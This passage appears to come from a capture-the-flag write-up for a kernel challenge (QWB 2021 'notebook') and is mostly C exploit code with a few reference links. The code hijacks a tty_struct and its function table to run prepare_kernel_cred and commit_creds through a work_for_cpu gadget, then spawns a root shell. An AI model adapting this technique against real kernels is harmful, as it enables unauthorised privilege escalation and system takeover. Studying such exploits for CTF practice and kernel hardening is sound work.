 ```c
    size_t * vtable[0x100] = {0};

    read(fp,( char * )fake_tty,0);
    fake_tty[3] = note_addr;
    fake_tty[4] = prepare_cred;
    fake_tty[5] = 0;


    // Modify the Vtable of TTY fd
    write(fp,( char * )fake_tty,0);
    vtable[12] = work_for_cpu;
    write(fp,vtable,1);


    //
    printf("[+] Prepare a cred\n");
    ioctl(mx,233,233);//TBD


    read(fp,( char * )fake_tty,0);
    size_t cred = u64(&fake_tty[6]);
    // printf("%p\n",cred);
    read(fp,( char * )fake_tty,0);
    fake_tty[4] = commit_cred;
    fake_tty[5] = cred;
    write(fp,( char * )fake_tty,0);
    puts("[+] Commit the cred");
    ioctl(mx,233,233);


    read(fp,( char * )fake_tty,0);
    if(0!=u64(&fake_tty[6]))
        Panic("Fail to commit the cred");
    puts("[+] Spawning a root shell...");
    puts("[!] Hi Root,");
    system("/bin/sh");

}
```


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: https://github.com/n132/attachment/tree/main/QWB_2021_Qual/notebook
